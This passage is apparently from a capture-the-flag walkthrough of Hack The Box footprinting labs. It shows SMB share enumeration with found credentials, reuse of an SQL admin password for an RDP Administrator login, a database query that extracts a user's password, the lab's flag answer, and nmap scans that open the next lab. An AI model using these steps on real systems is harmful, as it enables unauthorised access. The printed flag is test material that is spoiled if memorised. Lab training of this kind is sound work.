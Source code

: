 ```
30     #       path=/login
31     #       domain="10.129.2.59:9500"
32            httpOnly=true
33            makeTransient=false
34            absoluteTimeoutInMinutes=1440
35            idleTimeoutInMinutes=1440
36    }
```
3. With the found credentials `alex:lol123!mD`, get access to the SMB server:
- `# smbclient -L //<ip> -U "alex%lol123!mD"` -> found the `devshare` share
- Enumerate this share:
```
# smbclient -L //<ip>/devshare -U "alex%lol123!mD"
smb: \> ls
  .                                   D        0  Wed Nov 10 23:12:22 2021
  ..                                  D        0  Wed Nov 10 23:12:22 2021
  important.txt                       A       16  Wed Nov 10 23:12:55 2021

                6367231 blocks of size 4096. 2592865 blocks available
smb: \> get important.txt
getting file \important.txt of size 16 as important.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```
- Read the file at host and found the credential for the SQL Server admin: 
```
$ cat important.txt
sa:87N1ns@slls83
```
4. Since RDP is enabled (base on the nmap result), try to connect to the target. Base on the hint: `We also need to keep in mind, that each Windows system has an Administrator account.`, use this credential to log in as the admin: `Administrator:87N1ns@slls83`
- `$ xfreerdp3 /u:Administrator /p:87N1ns@slls83 /v:<ip>`
- Once logged in, open the Microsoft SQL Server Management Studio, find the table `dbo.devsacc` inside the `accounts` database and query for the user's password:
    ```
    USE [accounts]
    GO

    SELECT [id]
        ,[name]
        ,[password]
    FROM [dbo].[devsacc]
    WHERE name='HTB'

    GO
    ```

`Answer: lnch7ehrdn43i7AoqVPK4zWR`

# Footprinting Lab - Hard
1. First perform a nmap scan (**also perform a UDP scan for full enumeration**):
```
$ sudo nmap -n -Pn --disable-arp-ping 10.129.169.58
PORT    STATE SERVICE
22/tcp  open  ssh
110/tcp open  pop3
143/tcp open  imap
993/tcp open  imaps
995/tcp open  pop3s

$ sudo nmap -sV --top-port 100 -sU 10.129.169.58
PORT     STATE         SERVICE VERSION
68/udp   open|filtered dhcpc
161/udp  open          snmp    net-snmp; net-snmp SNMPv3 server
```